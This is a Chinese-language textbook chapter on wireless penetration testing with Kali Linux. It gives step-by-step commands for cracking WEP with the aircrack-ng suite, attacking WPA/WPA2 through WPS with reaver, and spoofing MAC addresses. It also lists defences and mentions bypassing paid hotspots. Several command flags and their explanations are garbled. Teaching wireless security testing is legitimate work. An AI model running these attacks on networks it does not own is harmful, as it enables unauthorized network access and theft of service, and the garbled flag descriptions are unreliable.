







# 四、渗透无线网络

在本章中，您将学习如何规划攻击和破解 WEP/WPA/WPA2 无线网络，并学习 MAC 欺骗以获得对网络的未经授权访问。你还将学习如何保护自己免受这些威胁。本章将提供有关 Kali Linux 的实际操作说明。请记住，只有在[第 1 章](01.html "Chapter 1. Preparing for an Effective Wireless Penetration Test")、*准备进行有效的无线渗透测试*末尾提到的任何无线网卡或适配器时，您才能遵循本章的破解部分。

在我们开始之前，在我们破解任何无线网络之前，您应该知道一些事情：

*   未经授权破解任何无线网络都是非法的
*   如果您未经授权被抓获，您将在您所在区域内依法承担后果
*   请仅在您自己的网络上演示技术

# 策划攻击

在我们运行任何无线扫描或破解任何无线加密之前，我们需要做的第一件事就是计划一次攻击。我们需要确保我们拥有进行无线渗透测试所需的一切，并尽可能多地问自己问题，这样我们就不会在路上遇到任何障碍。让我们从需求列表开始，然后是破解无线网络的步骤。


## 攻击需要什么？

在这里，我们列出了实施全面无线攻击所必需的内容：

*   **兼容无线适配器**：注意必须支持包注入
*   **卡利 Linux 操作系统**：我们所有的安全工具都是预装的
*   **用笔和纸做笔记**：这将帮助我们保持条理

## 攻击无线网络的方案

以下是计划无线攻击的步骤：

1.  扫描区域中的无线网络列表。
2.  注意 BSSID、通道号和加密。
3.  列出您将用于攻击的几种攻击方法：

    *   Airodump
    *   Aircrack
    *   字典攻击
    *   默认登录
    *   密码猜测

4.  继续每种方法。
5.  记录成功和不成功的结果。
6.  再试一次。

# 无线密码破解

破解无线加密有很多不同的方法。我将介绍破解无线网络的最常用方法。在接下来的几节中，我将详细讨论每种无线加密是什么，然后将演示如何破解这些无线加密类型。开始吧！

## WEP 加密

**有线等效隐私**（**WEP**加密是一种标准的 Wi-Fi 无线网络安全算法，用于保护个人和商业网络。WEP 密钥由网络管理员创建，以允许本地网络上的设备组安全连接。当每个数据包从客户端发送到无线接入点时，它都以十六进制数字序列进行编码。这些数字包括数字 0 到 9 和字母 A 到 F。



WEP 密钥越长，WEP 加密的比特数越强。例如，如果您有一个包含 10 个字符的 WEP 密钥，它可能在 40 到 60 位之间，而一个包含更复杂的 58 个字符的 WEP 密钥在 256 位的区域内会更强。一些网络仍然依赖 WEP 加密，因为个人或企业可能仍然有通过 Wi-Fi 连接的旧设备。到目前为止，一些仓库或工厂仍在使用 WEP 加密，因为他们根本不想投资可能破坏其生产网络的新技术。

## 破解 WEP 加密

在本节中，我们将逐步介绍如何破解 WEP 加密。



1.  Open the Terminal, type the following command, and press *Enter*:

    ```
    airmon-ng start wlan0

    ```

    此命令将在监控模式下启动`wlan0`接口。**监控模式**是一种功能，允许您的计算机监听无线网卡范围内的每个无线数据包。这种模式允许我们将数据包注入无线网络。以下是输出：

    

2.  Then type the following command and press *Enter*:

    ```
    airodump-ng mon0

    ```

    此命令在无线接口上启用监视器模式。以下是输出：

    

3.  Type the following command and press *Enter*:

    ```
    airodump-ng –c 6 –w capture --bssid 00:13:10:9A:4E:B5 mon0

    ```

    以下是该命令的组件：

    *   `-c`：这是频道
    *   `-w`：这允许对文件进行写访问
    *   `--bssid`：这是无线接入点 MAC 地址

    以下是上一个命令的输出：

    

    您需要将粗体字替换为您的网络信息。

4.  Type the follow command and press *Enter*:

    ```
    aireplay-ng -1 1000 –q 10 –e linksys–a 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0 –ignore-negative-one

    ```

    以下是该命令的组件：

    *   `-1`：这是每个突发的数据包数
    *   `-q`：这是两次保存间隔的秒数
    *   `-e`：设置目标 AP SSID
    *   `-a`：设置接入点 MAC 地址
    *   `-h`：设置源 MAC 地址（`00:11:22:33:44:55`为伪造的 MAC 地址）
    *   `-ignore-negative-one`：解析`mon0`上的固定通道

    如果在运行此命令时遇到问题，请在启用监视模式后尝试关闭界面。以下是如何做到这一点：

    ```
    airmon-ng start wlan0

    ```

    然后，运行以下命令：

    ```
    ifconfig wlan0 down

    ```

    这应该解决通道`-1`错误消息，如图所示：

    

5.  Type the following command and press *Enter*:

    ```
    aireplay-ng -3 –b 00:13:10:9A:4E:B5 –h 00:11:22:33:44:55 mon0

    ```

    

6.  Time to crack the WEP key! Type the following command and press *Enter*:

    ```
    aircrack-ng capture-01.cap

    ```

    这里，`capture-01.cap`是包含数据的文件名。它可以是完整数据包或仅 IVs 文件。必须至少有四个 IVs。

仅当 100%的十六进制键已转换为 ASCII 时，才会显示 WEP 键。收到密钥后，您可以尝试连接到无线网络。



如果您能够破解网络密钥，恭喜您成功破解 WEP 加密网络！如果你没有成功，不要担心。每个网络和无线接入点都是不同的。它还取决于您与接入点之间的信号以及所使用的加密。

## 破解 WPA 和 WPA2 加密

WPA 和 WPA2 是两种不同的安全算法，用于保护无线网络。WPA 使用 TKIP，而 WPA2 同时使用（TKIP 和 AES）。正如今天的一样，最常见的无线路由器和接入点创造了一种快速、无麻烦的连接到安全网络的方法。WPS 是一种允许轻松设置安全网络的功能；然而，使用 Kali Linux 中提供的正确的安全工具，WPS 很容易被破解。WPA 是为了取代 WEP 而设计的，因为安全机构发现严重的缺陷使得在几分钟内很容易获得未经授权的访问。尽管 WPA 更难破解，但仍然有可能破解 WPA 甚至最新的 WPA2 加密算法。

在部分，我将演示如何破解 WPA 和 WPA2 无线网络。

1.  Open the Terminal and type the following command:

    ```
    airmon-ng start wlan0

    ```

    此命令将在监控模式下启动`wlan0`界面：

    

2.  Type the following command and press *Enter*:

    ```
    airodump-ng mon0

    ```

    这将允许我们将数据包注入无线网络。

    

3.  Type the following command and press *Enter*:

    ```
    reaver –i mon0 –c 11 –e Johns –b 20:AA:4B:F2:25:4E –vv --no-nacks

    ```

    以下是上述命令的组件：

    *   `-i`：这是无线接口
    *   `-c`：这是频道号
    *   `-e`：设置目标接入点
    *   `-b`：设置目标 MAC 地址
    *   `-vv`：这将设置两次详细选项，以增加详细性，并在尝试时显示每个 pin 码
    *   `--no-nacks`：这确保了目标接入点更好的可靠性

    以下是输出：

    

您需要更改以粗体突出显示的内容。此过程可能需要 2 到 10 个小时才能完成。如果失败，这可能是因为无线信号强度不好或此设备上未实现 WPS。

### 什么是收割者？

Reaver 是一个免费的开源工具，可以利用和破解 WPA 或 WPA2 加密的无线网络。它还设计用于对启用 WPS 的无线接入点执行暴力攻击。

### 收割者是如何工作的？

现在你知道什么是收割者了，我们需要简单地讨论一下它是如何工作的。Reaver 利用了无线设备中一种称为 WPS 的功能。**Wi-Fi 保护设置**（**WPS**）为那些不知道如何在无线网络上设置无线安全的人提供了一个简单的设置。它生成一个硬编码到特定设备的 PIN。“掠夺者”利用引脚中的缺陷，只需片刻时间即可揭示 WPA 或 WPA2 密码短语。

### 保护自己免受掠夺者的伤害

为了方便地保护自己免受“掠夺者”攻击，请从无线设备禁用 WPS 功能。如果您是一家企业，请使用 WPA2-PSK（AES）。如果您是家庭用户，请使用 WPA2 个人 AES。永远不要生成密码，使用强复杂的密码短语并经常更新密码短语。

## WPA/WPA2 开裂结果

正如您在下面的屏幕截图中所看到的，我们已经破解了 WPA/WPA2 加密。如果您试图连接到无线网络，它将要求您输入 PIN 或 WPA PSK 密钥。输入其中一项，您应该可以完全访问该无线网络，如图所示：



# 欺骗您的 MAC 地址

我当然希望你现在知道 MAC 地址过滤并不真正安全。在我看来，它远不如 WEP 加密有效，因为它很容易伪造。这并不意味着 MAC 地址过滤是毫无意义的。它确实阻止了许多只针对最薄弱环节网络的攻击者。无论你做什么，都不要依赖 MAC 本身的过滤！WEP 加密比根本不加密要好。


做这件事不需要很多技巧。你所要做的就是通过无线监听网络流量，并将你的 MAC 地址更改为已经连接的人的 MAC 地址。使用自动化脚本或应用程序，更改 MAC 地址非常简单，如 1、2、3。接下来，我将演示如何使用名为**macchanger**的工具欺骗您的 MAC 地址。

1.  打开终端。
2.  Type the following command and press *Enter*:

    ```
    ifconfig wlan0 down:

    ```

    此命令关闭或禁用无线接口。

3.  To turn `wlan0` back on, type the following command and press *Enter*:

    ```
    Ifconfig wlan0 up

    ```

    以下是输出：

    

4.  Type the following command and press *Enter*:

    ```
    macchanger –-random wlan0::

    ```

    此命令随机为无线接口生成假 MAC 地址：

    

5.  Type the following command and press *Enter*:

    ```
    macchanger --–mac=00:11:22:33:44:55 wlan0

    ```

    此命令允许您在无线接口上为 spoof 分配 MAC 地址，如图所示：

    

就这些！很容易吧？只要知道这一点，就可以帮助绕过付费热点网络，用户必须为延长时间付费。咖啡店、餐厅、机场和酒店都将拥有这样的网络。当用户付费时，他们的 MAC 地址将被添加到允许访问 Internet 的 MAC 地址列表中。

# 保护自己免受无线攻击

我们总是需要知道如何保护自己免受这些威胁和攻击。


接下来，我们将讨论如何保护自己免受这些攻击：

*   更强的加密将降低攻击风险
*   MAC 过滤还可以帮助降低攻击风险
*   仅当您的设备与 WPA/WPA2 不兼容时才使用 WEP；但是，不建议使用，因为它是不安全的
*   为业务网络创建单独的 VLAN 以限制访问
*   禁用或关闭 WPS 设置
*   创建强而复杂的密码短语
*   应每 3 或 4 个月更改一次密码短语
*   不要使用制造商配置的默认密码
*   使用 EAP 而不是 PSK
*   更改默认 SSID 名称

# 总结

本章到此为止！我希望你喜欢我为你准备的演示。这一章对我们俩来说都很有趣。让我们花些时间回顾一下本章所学的内容。

在本章中，我们制定了一个进攻计划。接下来，我们列出了几种攻击方法。然后，我们介绍了有关 WEP、WPA 和 WPA2 加密的详细信息。最后，我们列出了几种降低无线攻击风险的方法。

在下一章中，我们将介绍如何识别无线网络上的主机、确定网络大小以及检测该网络上易受攻击的设备和系统。我很确定你和我一样兴奋。让我们继续前进！